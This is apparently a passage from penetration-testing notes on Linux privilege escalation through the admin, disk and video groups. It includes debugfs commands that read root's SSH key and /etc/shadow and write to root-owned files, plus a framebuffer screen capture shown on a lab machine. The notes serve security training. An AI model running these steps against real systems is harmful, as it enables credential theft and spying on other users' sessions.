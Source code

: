 All members of the group `admin` have access to logs files:

```
/var/log/
```

## disk

All members of the gorup `disk` have full access to the filesystem.

```bash
df -h #search disk

debugfs /dev/sda1
debugfs: cd /root
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

We can also write files on the filesystem.

```bash
debugfs -w /dev/sda1
debugfs: dump file1.txt file2.txt  #Copy file1.txt to file2.txt
```

> **Hint**: Files owned by root are now writable such as `/etc/passwd` or `/etc/shadow`.

## video

The video group has access to view the screen output of all opened sessions (tty). With `w` command we can see the who is logged on the server:

```bash
moshe@falafel:/var/log$ w
 17:35:42 up  3:40,  3 users,  load average: 0.22, 0.09, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      13:55    3:40m  0.05s  0.04s -bash
moshe    pts/0    10.10.14.20      17:18    0.00s  0.08s  0.00s w
moshe    pts/1    10.10.14.20      17:18   15:17   0.03s  0.03s bash
```

So we need to grab the video output and graphics configuration.

```bash
moshe@falafel:/var/log$ cat /dev/fb0 > /tmp/screen.raw
moshe@falafel:/var/log$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```

Finally we can open the data with GIMP.

![](/hackingnotes/images/video.png)

## docker
